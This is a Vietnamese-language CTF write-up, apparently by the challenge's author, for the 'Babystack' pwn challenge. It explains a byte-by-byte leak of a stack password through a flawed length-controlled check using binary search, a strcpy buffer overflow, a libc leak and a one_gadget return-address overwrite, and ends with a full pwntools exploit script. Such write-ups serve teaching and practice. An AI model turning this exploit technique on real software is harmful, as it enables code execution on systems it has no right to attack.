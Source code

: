 # Babystack  

## Summary  
  Một bài leak stack từng byte thông qua lỗi ở hàm login, kết hợp với binary search (tìm kiếm nhị phân) để giảm thiểu số lượng lần phải đoán.  

## Description  
  
>Now we have password to protect our stack from being overflown. There is no way this can be exploited, right?  

![image](https://user-images.githubusercontent.com/101010673/175363377-424a5aff-4c46-43f5-bbfc-4eef817f2db1.png)  


## Reversing  
  Đầu tiên chương trình sẽ đọc 16 byte từ `/dev/urandom`, đây chính là **password** hay **stack canary**  
  ![image](https://user-images.githubusercontent.com/101010673/175365066-52d1ed0e-59c7-46ca-b956-cfec1083afad.png)   
  
  Sau đó sẽ có một vòng lặp while vô hạn, và để thoát ra ta cần nhập input là '2'  
  ![image](https://user-images.githubusercontent.com/101010673/175365823-26432300-d1ad-4cc1-9d0a-ac58a0b8fcc2.png)  
  Sau khi thoát khỏi vòng lặp, nếu như **logged_in = true** và **password** vẫn giữ nguyên như ban đầu ( tức là chưa bị tràn stack ) thì sẽ **return**  
  
  Hàm **login** sẽ chỉ đơn giản là nhập vào password và check password thông qua hàm **check_password**, đồng thời mỗi lần nhập sai số lượng **attempt** tăng thêm 1, nếu như **attempt** quá 0xe6 thì chương trình sẽ exit  
  Chú ý là **len** ở đây được tính thông qua `strlen(input_passw)`  
  ![image](https://user-images.githubusercontent.com/101010673/175366156-217c48cb-a699-458c-bcf6-6310c240948c.png)  
  Hàm **check_login** chỉ đơn giản là lấy từng char ở **passw** trừ cho char ở **input_passw** để tính **difference**, nếu `difference = 0` thì **return 1** tức là **Login succeed** nếu `< 0` thì là **too small** và `> 0` thì **too large**  
  Ta chỉ tính **difference** cho đến kí tự char thứ **len**, mà **len** lại do **input_passw** điều khiển  
  ![image](https://user-images.githubusercontent.com/101010673/175367841-5195b284-5172-4f62-8a30-ca88d187d4e1.png)  
  Cuối cùng hàm **copy** chỉ là copy **content**, dữ liệu ta nhập vào đến buffer nằm trên stack  
  ![image](https://user-images.githubusercontent.com/101010673/175368135-fa2fe834-c9e9-4ee4-8465-6a6718f65614.png)  
  
## Vulnerability  
  Chương trình có 2 lỗi đáng chú ý:  
  - Đầu tiên lỗi bắt đầu từ việc `check_password` với **len** từ input của chúng ta, vậy tức là chúng ta có thể `check_password` đúng 1 byte, rồi 2 byte,... rồi dựa trên kết quả trả về để đoán xem liệu byte đó có đúng không, rồi dùng byte đã đoán đó để tiếp túc đoán các byte còn lại, do output trả ra còn có cả **too large** và **too small** ta sẽ kết hợp cả binary search để tìm kiếm được giá trị của byte với ít lần đoán hơn  
  => Ta có khả năng để leak được giá trị nằm trên stack bắt đầu từ address **passw**, leak bao nhiêu byte cũng được :d  
  ![image](https://user-images.githubusercontent.com/101010673/175369265-a8600b60-368f-4aff-be8e-76d7503fab43.png)  
  - Lỗi thứ hai là một lỗi buffer overflow khá dễ nhìn thấy nằm ở **strcpy** trong hàm `copy`. Tại **strcpy** không có số lượng byte sẽ copy, nên sẽ copy cho đến khi gặp **null byte**, nếu như trong input ta không có **null byte** thì sẽ copy rất nhiều byte khác nằm trên stack  
  => Có thể tràn buffer, mà ta lại copy đến một buffer **nằm trên stack frame của hàm main**, điều này khiến ta có thể ghi đè được **return address của main** nếu ta leak được **password**  
  ![image](https://user-images.githubusercontent.com/101010673/175370300-bdc2f7ba-9685-4a13-87c3-0d4fe60ab86d.png)  
  
## Exploitation  
  Với lỗi như đã nói ở trên, ta hoàn toàn có thể leak được **password** qua từng byte một, về phần implementation có thể xem code (rất lộn xộn) của mình ở phía dưới.  
  Giờ mình sẽ chỉ tập trung vào lỗi 2, cách ta có thể exploit nó như thế nào:  
  - Đầu tiên chú ý là trong hàm **login** có stack frame `0x90 byte`  
  ![image](https://user-images.githubusercontent.com/101010673/175372503-83a16494-1cfd-459d-968a-a0cacc8662d7.png)   
  - Và tương tự trong hàm **copy** cũng có stack frame `0x90 byte`   
  ![image](https://user-images.githubusercontent.com/101010673/175372731-62ec668f-b91d-43f7-b5ae-a5241eed7b9a.png)   
  - Vậy là nếu như ta gọi hàm **login** rồi gọi hàm **copy** ngay sau đó, thì 2 hàm sẽ có **stack frame trùng nhau**, dẫn đến buffer **content** trong **copy**, và **input_passw** trong **login** cũng sẽ bị trùng, mà **input_passw** ta có thể nhập `128 byte` so với `63 byte` của **content**, dẫn đến lỗi **strcpy** kia có thể sẽ khiến **buffer overflow với input ta kiểm soát**    
  - Ta có thể lợi dụng điều này để ghi đè được **password**, điều này cho ta khả năng để leak được thứ khác ngoài **password** từ lỗi 1 kia. Ta sẽ leak libc address thông qua đây.  
  ![image](https://user-images.githubusercontent.com/101010673/175376706-794b39cd-1006-4a3f-8823-251d20226d58.png)   
  -  Có thể thấy do 2 stack frame trùng nhau, nên content sẽ bị copy không chỉ là **0x3f byte 0x41** nữa, mình đã ghi đủ **88 byte** ở buffer **input_passw**, để khi **strcpy** sẽ ghi đè `0x00007ffff7a7cfc4` tại một chỗ nào đó nằm sau **password**, rồi giống như cách ta đã leak **password** ta sẽ lại leak **libc address**   
  -  Trước copy:    
  ![image](https://user-images.githubusercontent.com/101010673/175377637-87a83b05-59cd-4462-b804-e02c8d36cec6.png)    
  -  Sau copy:    
  ![image](https://user-images.githubusercontent.com/101010673/175377883-3d522999-f5f7-404a-9cb0-74161eacffcc.png)   
  - Có thể thấy sau copy ở **password** đã bị ghi đè thành nhiều byte 0x41 và đồng thời có **libc address** ở cuối, giống như ta đã leak **password** giờ **ta leak libc với prefix là một dãy số lượng 'A'**  
  - Cuối cùng sau khi leak được hết, chỉ cần **buffer overflow** tương tự cách ta ghi đè **password** ta sẽ ghi đè **return address** thành **one_gadget**  
  ![image](https://user-images.githubusercontent.com/101010673/175378287-9034f49f-e140-4333-a156-fc74e3438b26.png)   
  - Mình dùng gadget nằm ở offset **0x45226**  

## Full exploit script:  
```python  
#!/usr/bin/env python3

from pwn import *


r = remote("127.0.0.1",2006)
passw = b""
leak = b""
pad1 = b"A"*23 + b"\x31"
leak_libc = b""

def check(x):
	r.sendafter("> ",b"1")
	r.sendafter(":",passw + (x).to_bytes(1,byteorder='little') + b"\x00")
	tmp = r.recvuntil(b"!")
	if b"Login" in tmp:
		return 1
	elif b"small" in tmp:
		return 2
	else:
		return 3

def check1(x):
	r.sendafter("> ",b"1")
	r.sendafter(":",pad1 + leak_libc + (x).to_bytes(1,byteorder='little') + b"\x00")
	tmp = r.recvuntil(b"!")
	if b"Login" in tmp:
		return 1
	elif b"small" in tmp:
		return 2
	else:
		return 3

#Get password:
for i in range(0,0x10):
	lo = 0x1
	hi = 0xff
	while(lo <= hi):
		
		mid = hi + lo
		mid = int(mid/2)
		
		res = check(mid)
		if res == 1:
			passw = passw + (mid).to_bytes(1,byteorder='little')
			r.sendafter("> ",b"1") 
			break
		elif res == 2:
			lo = mid + 1
		else:
		 	hi = mid - 1


r.sendafter("> ",b'1')
r.sendafter(":",b"\x00")
r.sendafter("> ",b'3')
r.sendafter(":",b"AAAAAAA")
r.sendafter("> ",b'1')
pad = b"\x00".ljust(88,b"A")
r.sendlineafter("> ",b'1')
r.sendafter(":",pad)
r.sendafter("> ",b'3')
r.sendafter(":",b"A"*0x3f) 
r.sendafter("> ",b'1')

#Leak addr:
for i in range(0,6):
	lo = 0x1
	hi = 0xff
	while(lo <= hi):
		
		mid = hi + lo
		mid = int(mid/2)
		
		res = check1(mid)
		if res == 1:
			leak_libc = leak_libc + (mid).to_bytes(1,byteorder='little')
			r.sendafter(b"> ",b'1') 
			break
		elif res == 2:
			lo = mid + 1
		else:
		 	hi = mid - 1

leak_libc = int.from_bytes(leak_libc,byteorder='little')
libc_base = leak_libc - 0x6ffc4
one_gadget = libc_base + 0x45226

log.info("PASSWORD: " + hex(int.from_bytes(passw,byteorder='little')))
log.info("Libc Base Address: " + hex(libc_base))
log.info("Leak Libc: " + hex(leak_libc))



pad = b"\x00AAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHH" + passw + b"IIIIIIIIJJJJJJJJKKKKKKKKLLLLLLLLMMMMMMMM" + p64(one_gadget)
r.sendafter("> ",b'1')
r.sendafter(":",pad)
r.sendafter("> ",b'3')
r.sendafter(":",b"A"*0x3f)

r.sendafter("> ",b'2')

r.interactive()
```  
![image](https://user-images.githubusercontent.com/101010673/175378595-08e407d5-5d1b-43e0-8d33-a56a119a7df5.png)   

## Author's Note:   
  - Bài này mình viết PoC rất vội bởi vì challenge này là challenge thay đổi phút cuối, thế chỗ cho một challenge ROP khá basic khác. Tại vì mình muốn tăng chút độ khó cho contest. Và cũng vì vậy cái exploit script này quá lộn xộn...    
  - Mình lấy cảm hứng rất nhiều từ Babystack nằm trên pwnable.tw, mình vẫn nhớ lần đầu làm bài đó do mạng nhà mình chậm nên chạy exploit script mất hơn 20 phút 😶.   
  - Với cả mình là sinh viên khoa học máy tính, nên đã thêm cái twist tìm kiếm nhị phân này vào, giúp cho việc exploit chạy nhanh hơn :3   
  - Có một điều nữa là lúc mình viết challenge, có yếu tố nào đó khiến cho stack layout nó rất khó kiểm soát 😧. Dẫn đến thỉnh thoảng cái bước leak libc kia có lần offset nó bị sai và cuối cùng không leak được libc address. Mong các bạn thông cảm, mình thiếu kinh nghiệm :(    
  ![image](https://user-images.githubusercontent.com/101010673/175379882-39e5d361-6423-4125-a379-67d1bb8781df.png)   
  - Chúc những team nào vào final sẽ làm được những bài pwn (may mắn rằng không phải là mình ra) hay hơn, khó hơn :)  



  


  

  

  
  

  
  
  


  

